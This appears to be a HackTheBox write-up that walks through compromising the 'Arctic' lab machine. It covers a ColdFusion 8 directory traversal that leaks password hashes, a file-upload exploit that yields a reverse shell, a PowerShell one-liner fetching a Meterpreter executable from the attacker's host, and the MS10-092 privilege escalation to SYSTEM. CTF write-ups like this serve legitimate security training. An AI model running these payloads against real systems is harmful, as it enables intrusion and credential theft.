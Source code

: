 # Hackthebox 


Before we start lets spin up a fresh instance of the box.

### Attack Summary

1. Exploit Adobe Cold Fusion 8
2. Exploit MS10-092 schelevator

## Recon

First, as always. we perform our initial enumeration of the box using Nmap.

```
# Nmap 7.80 scan initiated Sun Oct 20 14:48:11 2019 as: nmap -v -sV -p- -T4 -oA nmap/full_tcp 10.10.10.11
Nmap scan report for 10.10.10.11
Host is up (0.041s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

At port 8500 we find a Cold Fusion install. We can clearly see that it is a Adobe Cold Fusion 8 version and we have and administrative login at "http://10.10.10.11:8500/CFIDE/administrator/"

Searching for exploits reveal a couple that we potentially could use

![cf_hash](../images/arctic_list.png)


## Initial Compromise

The problem with this box is that the web application is very slow. I dont really know why but even a freshly reset box is slow.

### Adobe ColdFusion - Directory Traversal

So we could use the "Adobe ColdFusion - Directory Traversal" exploit to extract some hashes and from that a password. 

```
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
The hashes are SHA1 hashed. A simple search online and we find that the password for our hash is "happyday".

![cf_hash](../images/arctic_cf.png)

I was not able to use this password to log in so I went on to another exploit "ColdFusion 8.0.1 Arbitrary File Upload and Execute".

### ColdFusion 8.0.1 Arbitrary File Upload and Execute

There is a Metasploit module present for this exploit which is making things easy for us. The only problem here is that it will fail because the app is so slow.
We can solve this by using burp as proxy in Metasploit and the fire the exploit from Burp instead.

```
root@kali:~/htb# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.11] 49528
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## Establish Foothold

The first thing I usually do when I have an initial foothold on a system is to upgrade our shell. This is because some tasks and exploits during our privesc phase may require a full TTY to work. Trust me, I have learned this the hard way.

Next I upgraded the shell to a Meterpreter session by uploading an executable and running it.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.14.22:8000/met.exe','met.exe')"
```

## Host situational awareness

Running the local exploit suggester module from Metasploit shows that the target is vulnerable to some exploits:

```
Exploit suggester:
[*] 10.10.10.11 - Collecting local exploits for x64/windows...
[*] 10.10.10.11 - 11 exploit checks are being tried...
[+] 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[*] Post module execution completed
```
 
## Privilege Escalation

We can then simply use one of suggested exploits to gain a system shell on the box:

```
msf5 exploit(windows/local/ms10_092_schelevator) > exploit 

[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] Preparing payload at C:\Users\tolis\AppData\Local\Temp\sXuWiNWP.exe
[*] Creating task: Kzzt9XjHvJmem0
[*] SUCCESS: The scheduled task "Kzzt9XjHvJmem0" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\Kzzt9XjHvJmem0...
[*] Original CRC32: 0x98752fbb
[*] Final CRC32: 0x98752fbb
[*] Writing our modified content back...
[*] Validating task: Kzzt9XjHvJmem0
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] Kzzt9XjHvJmem0                           1/11/2019 8:30:00    Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "Kzzt9XjHvJmem0" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "Kzzt9XjHvJmem0" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (180291 bytes) to 10.10.10.11
[*] SUCCESS: Attempted to run the scheduled task "Kzzt9XjHvJmem0".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.22:4444 -> 10.10.10.11:49373) at 2019-10-24 23:32:22 +0200
[*] SUCCESS: The scheduled task "Kzzt9XjHvJmem0" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

